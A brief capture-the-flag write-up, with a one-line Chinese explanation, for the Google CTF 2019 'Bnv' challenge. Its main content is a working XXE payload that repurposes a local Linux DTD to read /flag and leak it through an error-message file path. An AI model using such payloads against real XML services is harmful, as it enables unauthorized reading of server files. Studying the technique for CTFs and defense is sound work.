 # [GoogleCTF2019 Quals]Bnv

目标不能加载外部dtd，利用linux本身的dtd

```
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///flag">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaaaa/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
%local_dtd;
]>
```

